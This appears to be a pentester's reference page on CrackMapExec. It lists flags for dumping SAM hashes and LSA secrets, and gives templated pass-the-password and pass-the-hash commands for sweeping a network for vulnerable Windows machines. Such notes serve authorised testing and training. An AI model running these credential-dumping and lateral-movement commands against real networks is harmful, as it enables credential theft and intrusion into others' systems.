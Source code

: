 ```yaml
---
title: CRACKMAPEXEC
summary: A swiss army knife for pentesting networks.
description: A swiss army knife for pentesting networks.
---
```


**[https://github.com/Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)**

## Resources

* [Workshop CrackMapExec LeHack 2023 Writeup - BOUYAICHE RAYAN](https://www.rayanle.cat/write-up-workshop-cme-lehack-2023/)

## Flags


 > 
 > **<font color=red>--sam</font>**</br>
 > Dump SAM hashes.
 > 
 > **<font color=red>--lsa</font>**</br>
 > Dump LSA Secrets.

## Pass the Password


 > 
 > **<font color=red>crackmapexec smb</font> \[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-d</font> \[TARGET_DOMAIN\] <font color=red>-u</font> \[mySamName\] <font color=red>-p</font> \[myUserPassword\]**</br>
 > Pass the Password around the network to find pwnable machines.

![tool-crackmapexec-example.png](../../attachments/tool-crackmapexec-example.png)

## Pass the Hash (NT)


 > 
 > **<font color=red>crackmapexec smb </font>\[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-u</font> \[mySamName\] <font color=red>-H</font> \[myUserNTHASH\] <font color=red>--local-auth</font>**</br>
 > Pass the Hash attack (NT Hash) around the network to find vulnerable machines.
